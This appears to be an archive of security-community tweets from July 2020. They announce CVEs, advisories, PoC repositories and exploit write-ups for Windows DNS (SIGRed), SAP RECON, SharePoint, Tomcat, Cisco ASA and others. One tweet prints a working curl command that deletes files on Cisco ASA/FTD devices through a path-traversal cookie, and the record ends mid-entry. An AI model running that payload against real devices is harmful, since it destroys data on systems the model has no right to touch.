# cry__pto
**https://twitter.com/cry__pto/status/1289176561732599808 _at 2020-07-31 12:30:18_**
<blockquote>
Tutorial on privilege escalation and post exploitation tactics
in Google Cloud Platform environments:(PDF) 66 PAGES:
https://t.co/6LGDGTiI0m 
#PenTest #Hacking #bugbountytips #redteam
</blockquote>

* https://github.com/blaCCkHatHacEEkr/PENTESTING-BIBLE/blob/master/Tutorial%20on%20privilege%20escalation%20and%20post%20exploitation%20tactics%20in%20Google%20Cloud%20Platform%20environments%20.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>129</code></td>
</table></tr>

---

# Immunityinc
**https://twitter.com/Immunityinc/status/1288868671272767496 _at 2020-07-30 16:06:51_**
<blockquote>
We are releasing advisories for two vulnerabilities Immunity Inc. found in Origin (Electronic Arts). Read more at:
https://t.co/5ETdalqJBp
https://t.co/c1A0897Wmm
</blockquote>

* https://github.com/immunityinc/Advisories/blob/master/2020/CVE-2020-13172.pdf
* https://github.com/immunityinc/Advisories/blob/master/2020/CVE-2020-15524.pdf

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>52</code></td>
</table></tr>

---

# gamozolabs
**https://twitter.com/gamozolabs/status/1288440436680306688 _at 2020-07-29 11:45:12_**
<blockquote>
What's it like to be inside AFL? We wrote a tool to find out! Much much more to come, but it generates random programs which report real-time information over shared memory, then over websockets to a visualization! https://t.co/wDoa1HX9sZ https://t.co/zpkZTYBLC1
</blockquote>

* https://github.com/gamozolabs/cookie_dough

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>384</code></td>
</table></tr>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1288198155775782912 _at 2020-07-28 19:42:28_**
<blockquote>
🚨 NEW: CVE-2010-4493 🚨 Use-after-free vulnerability in Google Chrome before 8.0.552.215 allows remote attackers to cause a denial of service via vectors related to the handling of mouse dragging events. https://t.co/rSlfGouOSE
</blockquote>

* http://code.google.com/p/chromium/issues/detail?id=63051

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# PentesterLab
**https://twitter.com/PentesterLab/status/1287981604787240960 _at 2020-07-28 05:21:58_**
<blockquote>
Two new videos are now available on how to exploit CVE-2020-8163 - A RCE in Ruby-on-Rails: 

https://t.co/BY9XZEnM3i
</blockquote>

* https://pentesterlab.com/exercises/CVE-2020-8163/videos

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>52</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1287974602870751233 _at 2020-07-28 04:54:09_**
<blockquote>
dazzleUP: A tool that detects the privilege escalation vulnerabilities caused by misconfigurations and missing updates in the Windows operating systems.  https://t.co/pjpPySDnH0   #Pentesting #dazzleUP #Windows #Vulnerability #Exploit #Infosec https://t.co/qqzFB16I6d
</blockquote>

* https://github.com/hlldz/dazzleUP

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>54</code></td>
</table></tr>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1287865979477737472 _at 2020-07-27 21:42:31_**
<blockquote>
🚨 NEW: CVE-2019-15107 🚨 An issue was discovered in Webmin &lt;=1.920. The parameter old in password_change.cgi contains a command injection vulnerability. Severity: CRITICAL https://t.co/CC92ahSlBM
</blockquote>

* https://www.exploit-db.com/exploits/47230

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</table></tr>

---

# ch3tanK
**https://twitter.com/ch3tanK/status/1287566913904631808 _at 2020-07-27 01:54:08_**
<blockquote>
GitHub - sailay1996/UAC_Bypass_In_The_Wild: Windows 10 UAC bypass for all executable files which are autoelevate true . https://t.co/iIGRffKdaW
</blockquote>

* https://github.com/sailay1996/UAC_Bypass_In_The_Wild

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>89</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1287374539022667776 _at 2020-07-26 13:09:43_**
<blockquote>
bddisasm - The Bitdefender disassembler (a fast, lightweight, x86/x64 instruction decoder. The project also features a fast, basic, x86/x64 instruction emulator, designed specifically to detect shellcode-like behavior) : https://t.co/ulCfuNyQWH
</blockquote>

* https://github.com/bitdefender/bddisasm

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>69</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1287351763511607296 _at 2020-07-26 11:39:12_**
<blockquote>
RT @maxpl0it: SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1287334604446162945 _at 2020-07-26 10:31:01_**
<blockquote>
Offensive Security Exam Report Template in Markdown (for OSCP OSWE OSCE OSEE OSWP) : https://t.co/J9riCC8wjR
</blockquote>

* https://github.com/noraj/OSCP-Exam-Report-Template-Markdown

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>228</code></td>
<td>Favorites: <code>644</code></td>
</table></tr>

---

# _murks
**https://twitter.com/_murks/status/1287328429680074752 _at 2020-07-26 10:06:29_**
<blockquote>
Just found out @pwntester took a look at the Nexus Repository Manager vulnerability (CVE-2018-16621) @_schn31d4 and I reported and found a bypass for the fix (https://t.co/OW9I0DTVlv).  He also used CodeQL to perform a Variant Analysis and found more bugs: https://t.co/IQVip2qxM6
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2020-015-nxrm-sonatype
* https://securitylab.github.com/research/bean-validation-RCE

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>46</code></td>
</table></tr>

---

# hoangkien_1020
**https://twitter.com/hoangkien_1020/status/1287206810395373570 _at 2020-07-26 02:03:13_**
<blockquote>
My CVE-2020-14321 PoC:
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
# PoC: https://t.co/kyHEAzMZRE
# Blog: 
https://t.co/S5KT04huLM
# Video PoC : https://t.co/q2o3eWZN5z
# Author: HK
# Happy to read and research!
</blockquote>

* https://github.com/HoangKien1020/CVE-2020-14321
* https://hocvahoc.me/index.php/2020/07/25/tu-quyen-teacher-len-rce-nhu-the-nao-trong-moodlecve-2020-14321/
* https://vimeo.com/441698193

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</table></tr>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1286971486352191488 _at 2020-07-25 10:28:07_**
<blockquote>
Never miss a public exploit. Get an email whenever an &lt;LPE/RCE/AuthBypass/any_other&gt; exploit is uploaded for &lt;insert any product you are watching out for&gt; on exploit-db. https://t.co/LcyA1B5WpO
</blockquote>

* http://github.com/bad-bit/mailpl0it

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>59</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1286868630194528256 _at 2020-07-25 03:39:24_**
<blockquote>
RT @aboul3la: Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# aboul3la
**https://twitter.com/aboul3la/status/1286809567989575685 _at 2020-07-24 23:44:43_**
<blockquote>
Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>892</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1286574848374906881 _at 2020-07-24 08:12:01_**
<blockquote>
RT @Cognosec: Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisc…
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# NOTwetw0rk
**https://twitter.com/NOTwetw0rk/status/1286419238534643712 _at 2020-07-23 21:53:41_**
<blockquote>
I just released my #0day research on the Nimbus protocol. Including exploit code for CVE-2020-8010, CVE-2020-8011, and CVE-2020-8012. Check it out here:

https://t.co/ZJntzOKK7H
</blockquote>

* https://github.com/wetw0rk/CA-UIM-Nimbus-Research

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>111</code></td>
</table></tr>

---

# zeroSteiner
**https://twitter.com/zeroSteiner/status/1286337542254735365 _at 2020-07-23 16:29:03_**
<blockquote>
Exploit for SAP "RECON" (CVE-2020-6287) just landed to @Metasploit https://t.co/PxTWjwMvXp Allows an unauthenticated remote user to create a new SAP Administrator
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13852

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>42</code></td>
</table></tr>

---

# 42Sz40
**https://twitter.com/42Sz40/status/1286305631788576774 _at 2020-07-23 14:22:15_**
<blockquote>
@francibosco @neirajones @ZeljkaZorz @RigneySec @Hacker_Combat 
CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability.
https://t.co/l5Si7jSy0Q

CVE-2020-1350.
a0205ea 5 days ago 
https://t.co/R1RYfkYPZn
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://github.com/T13nn3s/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# 42Sz40
**https://twitter.com/42Sz40/status/1286305488821510145 _at 2020-07-23 14:21:41_**
<blockquote>
@NakedSecurity @troyhunt @DarkReading @reach2ratan @ZDNet @gcluley
CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability.
https://t.co/l5Si7jSy0Q

CVE-2020-1350.
a0205ea 5 days ago 
https://t.co/R1RYfkYPZn
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://github.com/T13nn3s/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# 42Sz40
**https://twitter.com/42Sz40/status/1286303997679329287 _at 2020-07-23 14:15:46_**
<blockquote>
#programming #programmer #Python #javascript #NodeJS @Anon_ITA @elimone @PhishFindR @javascriptflx
CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability.
https://t.co/l5Si7jSy0Q

CVE-2020-1350.
a0205ea 5 days ago 
https://t.co/R1RYfkYPZn
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://github.com/T13nn3s/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</table></tr>

---

# Cognosec
**https://twitter.com/Cognosec/status/1286178945159901185 _at 2020-07-23 05:58:51_**
<blockquote>
Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisco https://t.co/CBpMsjwzGk
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>111</code></td>
</table></tr>

---

# bonsaiviking
**https://twitter.com/bonsaiviking/status/1285962390442475520 _at 2020-07-22 15:38:20_**
<blockquote>
Periodic reminder that Nmap 7.40 and newer have a super-fast UDP scan mode that gives similar results to masscan/unicornscan and other asynchronous scanners: nmap -sU --defeat-icmp-ratelimit
https://t.co/NABX3MC5VU
</blockquote>

* https://github.com/nmap/nmap/commit/3f1ad0742e04cd994435adfe46e24d65222e02eb

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>183</code></td>
<td>Favorites: <code>513</code></td>
</table></tr>

---

# ducnt_
**https://twitter.com/ducnt_/status/1285286454910844928 _at 2020-07-20 18:52:24_**
<blockquote>
So, here is a gift for you about CVE-2020-6287 SAP RCE exploit :). 
Only user create, no more administrator permission set. 😄

https://t.co/9eXHQF2x3u https://t.co/W5Gp2tEhBI
</blockquote>

* https://github.com/duc-nt/CVE-2020-6287-exploit

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>195</code></td>
<td>Favorites: <code>460</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1285257596501295104 _at 2020-07-20 16:57:44_**
<blockquote>
Details and PoC released for a critical remote code execution #vulnerability (CVE-2020-1147) affecting SharePoint Servers that #Microsoft patched just last week with the release of July 2020 Patch Tuesday updates.

https://t.co/LpY241r8XE

via @sourceincite
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>273</code></td>
</table></tr>

---

# steventseeley
**https://twitter.com/steventseeley/status/1285225452454502405 _at 2020-07-20 14:50:00_**
<blockquote>
SharePoint and Pwn :: Remote Code Execution Against SharePoint Server Abusing DataSet: https://t.co/NiUeuy8oZu

CVE-2020-1147 full analysis and exploit :-&gt;
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>329</code></td>
<td>Favorites: <code>632</code></td>
</table></tr>

---

# h4ms1k
**https://twitter.com/h4ms1k/status/1284789414846246913 _at 2020-07-19 09:57:21_**
<blockquote>
I have developed a POC for CVE-2020-8163 that allows blind remote code execution on rails &lt; 5.0.1 and &lt; 4.2.11.2
https://t.co/j5W7IrM7le
</blockquote>

* https://github.com/h4ms1k/CVE-2020-8163

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>6</code></td>
</table></tr>

---

# BlackBerry
**https://twitter.com/BlackBerry/status/1284488415753277442 _at 2020-07-18 14:01:17_**
<blockquote>
Get BlackBerry's detailed analysis of the F5 Big-IP TMUI RCE vulnerability (CVE-2020-5902): https://t.co/Fr0KqHY8GS https://t.co/Ht9Qh0es85
</blockquote>

* https://bit.ly/32vMXhH

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# NSACyber
**https://twitter.com/NSACyber/status/1284103583110234113 _at 2020-07-17 12:32:06_**
<blockquote>
CVE-2020-1350 represents significant risk to Windows DNS servers. #Patch or apply the mitigation steps today, you should expect adversaries are hard at work writing exploits for this #vulnerability. Check out our detailed guidance: https://t.co/KUZT1UMEHQ https://t.co/Nlnu4E4ntg
</blockquote>

* https://media.defense.gov/2020/Jul/16/2002458198/-1/-1/0/CSA_CVE20201350-V_1_0%20-%20COPY.PDF

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>148</code></td>
<td>Favorites: <code>228</code></td>
</table></tr>

---

# cry__pto
**https://twitter.com/cry__pto/status/1284086538343714817 _at 2020-07-17 11:24:22_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit:
https://t.co/LuABYgsYrI 
#Pentesting #Hacking #bugbountytips #RedTeam
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>506</code></td>
</table></tr>

---

# LukasStefanko
**https://twitter.com/LukasStefanko/status/1284033488312832001 _at 2020-07-17 07:53:34_**
<blockquote>
0-click RCE via MMS exploit for Samsung's Android OS versions O(8.x), P(9.0) and Q(10.0) #Fuzzing CVE-2020-8899
https://t.co/Qeyq7ACjoN
Demo: https://t.co/VL7eL03SrD https://t.co/ooOGpchF6c
</blockquote>

* https://googleprojectzero.blogspot.com/2020/07/mms-exploit-part-1-introduction-to-qmage.html
* https://youtu.be/ZQnb8kRMkHg

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>256</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1283702592879632385 _at 2020-07-16 09:58:42_**
<blockquote>
CVE-2020-1300: Remote Code Execution Through Microsoft Windows Cab Files 
https://t.co/IhyNf2OVHf   #Pentesting #RCE #Window #Vulnerability #Infosec https://t.co/zdFfvIzsHs
</blockquote>

* https://www.zerodayinitiative.com/blog/2020/7/8/cve-2020-1300-remote-code-execution-through-microsoft-windows-cab-files

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>113</code></td>
</table></tr>

---

# 4w4r44
**https://twitter.com/4w4r44/status/1283595354995187712 _at 2020-07-16 02:52:35_**
<blockquote>
Proof-of-Concept (PoC) script to exploit SIGRed (CVE-2020-1350). Achieves Domain Admin on Domain Controllers running Windows Server 2000 up to Windows Server 2019.

https://t.co/Lg20kqAVuS

#exploit #rce
</blockquote>

* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# maxpl0it
**https://twitter.com/maxpl0it/status/1283537179365564417 _at 2020-07-15 23:01:25_**
<blockquote>
SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>634</code></td>
</table></tr>

---

# arocse
**https://twitter.com/arocse/status/1283486366370877442 _at 2020-07-15 19:39:30_**
<blockquote>
Vulnerabilidad crítica en los DNS de Windows, CVE-2020-1350: https://t.co/J4eCuQcEMG CVSS 10.0 (máximo). RCE wormable, con el agravante de que el 99% d los DNS son los DC. 1 PC, 1 correo malicioso, 1 exploit  Game Over. 
#DNS
#CVE20201350 exploit released
 https://t.co/T0SuEQknhA
</blockquote>

* https://support.microsoft.com/es-es/help/4569509/windows-dns-server-remote-code-execution-vulnerability
* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</table></tr>

---

# IanColdwater
**https://twitter.com/IanColdwater/status/1283481467956469763 _at 2020-07-15 19:20:02_**
<blockquote>
New #Kubernetes CVE-2020-8559: Privilege escalation from compromised node to cluster

You are only affected by this vulnerability if you treat the node as a security boundary, or if clusters share certificate authorities and authentication credentials.

https://t.co/GoQSTpBWJG
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92914

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>66</code></td>
</table></tr>

---

# maxpl0it
**https://twitter.com/maxpl0it/status/1283471692006920193 _at 2020-07-15 18:41:11_**
<blockquote>
CVE-2020-1350 DoS

The hardest part of this was setting up domains! https://t.co/Aut92cJB5o
</blockquote>

<table><tr>
